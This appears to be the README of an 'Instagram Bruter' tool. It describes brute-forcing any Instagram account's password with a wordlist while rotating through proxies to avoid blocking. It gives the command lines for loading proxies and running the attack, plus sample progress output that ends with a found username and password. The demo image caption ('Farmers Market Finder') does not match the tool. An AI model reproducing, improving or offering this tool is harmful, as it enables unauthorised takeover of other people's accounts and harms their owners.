 # Instagram Bruter
This program will brute force any Instagram account you send it its way given a list of proxies.

# Proxies 
The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

# Upload
Upload a list of proxies into the program. The proxy file must have a format of ip:port
proxies_list.txt
```
python.exe .../instagram.py -px .../proxies_list.txt
```
```
172.67.190.88:80
172.64.18.156:80
98.162.25.7:31653
98.178.72.21:10919
```

# Stats
This gives an insight into the health of the proxies in the database.
```
.../python.exe .../instagram.py --stats
```

# Usage
python instagram.py -u <username> -p <passlist>

# Run
```
[-] Wordlist: passlist.txt
[-] Username: sss.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

# Stop
```
[-] Wordlist: passlist.txt
[-] Username: sss.1
[-] Password: sss.123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True
```

```
[!] Password Found
[+] Username: sss.1
[+] Password: sss.123
```


# Demo
![Farmers Market Finder - Animated gif demo](document/2024-05-05_14-47-34.gif)


